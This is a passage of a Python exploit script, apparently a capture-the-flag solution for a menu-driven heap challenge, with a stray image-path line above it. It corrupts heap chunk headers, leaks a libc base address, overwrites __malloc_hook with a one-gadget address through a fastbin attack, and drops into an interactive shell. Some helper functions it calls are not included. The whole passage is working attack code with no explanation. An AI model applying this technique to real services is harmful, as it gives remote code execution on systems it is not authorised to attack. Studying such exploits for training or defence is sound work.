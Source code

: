 ```python
def free(index):
	io.recvuntil("Command: ")
	io.sendline("3")#free
	io.recvuntil("Index: ")
	io.sendline(str(index))

def dump(index):
	io.recvuntil("Command: ")
	io.sendline("4")
	io.recvuntil("Index: ")
	io.sendline(str(index))

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)

payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += p8(0x80)

fill(0,payload)
payload = p64(0) * 3
payload += p64(0x21)
fill(3,payload)
allocate(0x10)
allocate(0x10)

payload = p64(0) * 3
payload += p64(0x91)

fill(3,payload)
allocate(0x80)
free(4)

dump(2)
io.recvuntil("Content: \n")

libc_base = u64(io.recv(8)) - 0x3c4b78
malloc_hook = libc_base + libc.symbols['__malloc_hook']

allocate(0x60)
free(4)
payload = p64(malloc_hook - 35)
fill(2, payload)
 
allocate(0x60)
allocate(0x60)
 
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
 
allocate(50)
io.interactive()
```
